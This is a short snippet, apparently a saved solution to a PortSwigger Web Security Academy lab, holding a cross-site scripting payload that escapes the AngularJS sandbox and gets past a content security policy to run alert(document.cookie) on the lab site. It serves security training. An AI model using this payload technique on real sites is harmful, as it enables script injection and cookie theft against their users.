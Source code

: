 ```
<script> location='https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cinput%20id=x%20ng-focus=$event.composedPath()|orderBy:%27(z=alert)(document.cookie)%27%3E#x'; </script>
```

From <https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection/lab-angular-sandbox-escape-and-csp> 

